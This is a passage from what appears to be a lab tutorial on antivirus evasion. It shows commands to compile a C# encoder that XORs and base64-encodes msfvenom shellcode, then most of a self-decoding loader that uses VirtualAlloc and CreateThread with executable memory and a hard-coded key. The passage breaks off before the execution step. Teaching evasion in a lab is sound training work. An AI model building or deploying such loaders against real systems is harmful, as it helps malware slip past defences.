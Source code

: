 ```csharp
            Console.WriteLine(Convert.ToBase64String(encoded));        
        }
    }
}
```

The code is pretty straightforward and will generate an encoded payload that we will embed on the final payload. Remember to replace the `buf` variable with the shellcode you generated with msfvenom.

To compile and execute the encoder, we can use the following commands on the Windows machine:

Compiling and running our custom CSharp encoder

```shell-session
C:\> csc.exe Encrypter.cs
C:\> .\Encrypter.exe
qKDPSzN5UbvWEJQsxhsD8mM+uHNAwz9jPM57FAL....pEvWzJg3oE=
```

Self-decoding Payload

Since we have an encoded payload, we need to adjust our code so that it decodes the shellcode before executing it. To match the encoder, we will decode everything in the reverse order we encoded it, so we start by decoding the base64 content and then continue by XORing the result with the same key we used in the encoder. Here's the full payload code (you can also get it in your Windows machine at `C:\Tools\CS Files\EncStageless.cs`):
```csharp
using System;
using System.Net;
using System.Text;
using System.Runtime.InteropServices;

public class Program {
  [DllImport("kernel32")]
  private static extern UInt32 VirtualAlloc(UInt32 lpStartAddr, UInt32 size, UInt32 flAllocationType, UInt32 flProtect);

  [DllImport("kernel32")]
  private static extern IntPtr CreateThread(UInt32 lpThreadAttributes, UInt32 dwStackSize, UInt32 lpStartAddress, IntPtr param, UInt32 dwCreationFlags, ref UInt32 lpThreadId);

  [DllImport("kernel32")]
  private static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);

  private static UInt32 MEM_COMMIT = 0x1000;
  private static UInt32 PAGE_EXECUTE_READWRITE = 0x40;
  
  private static byte[] xor(byte[] shell, byte[] KeyBytes)
        {
            for (int i = 0; i < shell.Length; i++)
            {
                shell[i] ^= KeyBytes[i % KeyBytes.Length];
            }
            return shell;
        }
  public static void Main()
  {

    string dataBS64 = "qKDPSzN5UbvWEJQsxhsD8mM+uHNAwz9jPM57FAL....pEvWzJg3oE=";
    byte[] data = Convert.FromBase64String(dataBS64);

    string key = "THMK3y123!";
    //Convert Key into bytes
    byte[] keyBytes = Encoding.ASCII.GetBytes(key);

    byte[] encoded = xor(data, keyBytes);
```